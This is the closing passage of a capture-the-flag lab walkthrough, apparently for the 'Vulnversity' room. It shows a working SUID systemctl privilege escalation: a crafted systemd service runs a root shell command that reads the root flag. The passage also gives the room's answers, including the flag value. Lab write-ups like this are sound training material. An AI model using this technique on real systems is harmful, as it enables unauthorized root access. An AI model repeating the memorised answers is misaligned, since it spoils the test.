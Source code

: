 ![privilege escalation](.medias/vulnversity/priv_esc.png)

Here we can see that we escalated teh privilege by abusing SUID and ran `id` command.

So now our next move is to replace `id` command with `cat /root/root.txt` so that it would output the root flag in /tmp/output file. Our new modified code will be:

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
![root flag](.medias/vulnversity/root_flag.png)

And Voilà, we got the root flag.

**Q1. On the system, search for all SUID files. Which file stands out?**

**Ans: `/bin/systemctl`**

**Q2. What is the root flag value?**

**Ans: `a58ff8579f0a9270368d33a9966c7fd5`**

Thankyou for reading this walkthrough. Hope you learnt something new form here. Until we meet again `:)`.
